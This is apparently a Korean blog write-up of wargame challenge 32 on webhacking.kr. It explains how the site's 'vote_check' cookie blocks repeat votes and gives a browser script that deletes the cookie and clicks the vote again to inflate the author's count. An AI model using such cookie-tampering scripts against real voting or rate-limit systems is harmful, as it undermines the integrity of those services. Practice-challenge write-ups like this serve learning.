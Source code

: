 ```yaml
---
layout: post
title: "Webhacking.kr 32번 문제"
description: ""
categories : development
sub_categories : ""
date: 2017-05-11
tags: [webhacking, 'webhacking.kr']
comments: true
share: true
background_image: /assets/images/posts/well-used/hacked.jpg
---
```


32 번 문제는 150 스코어의 문제입니다.

문제를 보면, 100명의 리스트가 존재합니다.

하단에 입장에 버튼이있는데 해당 버튼을 누르면 100명의 리스트에 제 계정이 추가됩니다.  
  
이후 본인 계정에 클릭을하게되면 vote up 이 됩니다.  
이후 스코어 1점이 추가되는데, 추가 이후에 추천을 누르면 `no` 메세지와 함께 추천이 안됩니다.  
  
요소를 보니 클릭 시, 아래와 같은 이벤트가 발생합니다.  
location.href='?hit='본인 계정'

  
추천과 동시에 `vote_check` 쿠키가 하나 생성됩니다.

보아하니 쿠키로 구분하여 추천 여부를 판별하는 것 같습니다.  
  
일단 저는 아래와 같이 간단하게 스크립트를 하나 작성했습니다.  
코드의 내용은 `vote_check` 라는 쿠키를 지운 후, 추천 요청을 하는 것 입니다.  
  
특성 상, 이벤트가 발생하면 페이지가 새로 로드되기 때문에 저는 사용하고있는 크롬 확장 프로그램을 통하여 해당 스크립트를 기입해 문제를 해결
했습니다.

  

하단에 소스 코드를 기재했습니다.

코드 상 셀렉트 부분을 참고하시면

onclick^="location.href='+"'?hit=hax0r'"+'" 이라 되어있는데, 여기서 hax0r 을 보인 계정으로
치환하시면 됩니다.

hax0r 은 제 계정이에여.

  

![](/assets/images/posts/743/2463304A591415CB017CFE.JPEG)

  

    var delCookie = function(name) {    document.cookie = name + '=;expires=Thu, 01 Jan 1970 00:00:01 GMT;';};/* Node Select 를 위해 Jquery 비동기 로드 */(function () {    function loadScript(url, callback) {        var script = document.createElement("script")        script.type = "text/javascript";        if (script.readyState) { //IE            script.onreadystatechange = function () {                if (script.readyState == "loaded" || script.readyState == "complete") {                    script.onreadystatechange = null;                    callback();                }            };        } else { //Others            script.onload = function () {                callback();            };        }        script.src = url;        document.getElementsByTagName("head")[0].appendChild(script);    }    loadScript("https://ajax.googleapis.com/ajax/libs/jquery/1.6.1/jquery.min.js", function () {             console.log('jquery loaded');            /* 계정 vote */var voteUpMe = function(e) {  delCookie('vote_check');  $('tr[onclick^="location.href='+"'?hit=hax0r'"+'"]').trigger('click');}     });})();

  

